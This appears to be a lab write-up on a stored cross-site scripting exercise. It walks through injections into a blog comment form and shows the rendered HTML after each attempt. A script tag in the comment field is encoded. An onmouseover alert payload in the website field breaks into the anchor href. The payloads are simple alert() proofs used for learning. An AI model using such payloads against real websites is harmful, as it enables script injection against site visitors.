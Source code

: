 # Stored XSS into anchor href attribute with double quotes HTML-encoded

  

**Notes:**

**Analysis**

  

There are 4 fileds in comment section

Comment, name, email, website

  

***Trial 1***

  

1. Comment : hello from hecker

  

2. Name : hecker

  

3. Email : hecker@web.com

  

4. Website : hecker.com

  

**Observation** : *Testing*

  

    <section class="comment">
    
    <p>
    
    <img src="/resources/images/avatarDefault.svg" class="avatar">
    
    <a id="author" href="hecker.com">hecker</a> | 11 January 2022
    
    </p>
    
    <p>hello from hecker</p>
    
    <p></p>
    
    </section>

  

***Trial 2 : Injecting JS to Comment field***

  

1. Comment : <script>alert('hello from hecker')</script>

  

2. Name : hecker2

  

3. Email : hecker@web.com

  

4. Website : hecker.com

  

**Observation : *Failure***

Angle brackets are HTML encoded

  

    <section class="comment">
    
    <p>
    
    <img src="/resources/images/avatarDefault.svg" class="avatar">
    
    <a id="author" href="hecker.com">hecker2</a> | 11 January 2022
    
    </p>
    
    <p>&lt;script&gt;alert(&apos;hello from hecker&apos;)&lt;/script&gt;</p>
    
    <p></p>
    
    </section>

  
  

***Trial 2 : Injecting JS to email field as it contains href tag***

  

1. Comment : hello from hecker3

  

2. Name : hecker3

  

3. Email : hecker@web.com

  

4. Website : "javascript:void(0)" onmouseover="alert('hello from hecker3')"

  

<a  id="author"  href="javascript:void(0)"  onmouseover="alert('hello from hecker3')">hecker2</a>

  

From the above trial and reviewing the source code, we can link JS to href attribute.

If we can able to inject event handlers inside the href attribute, then we can say, its vulnerable to XSS

  
  

**Observation : Success**

  

    <section class="comment">
    
    <p>
    
    <img src="/resources/images/avatarDefault.svg" class="avatar">
    
    <a id="author" href="javascript:void(0)" onmouseover="alert(&apos;hello from hecker3&apos;)"">hecker3</a> | 11 January 2022
    
    </p>
    
    <p>hello from hecker3</p>
    
    <p></p>
    
    </section>
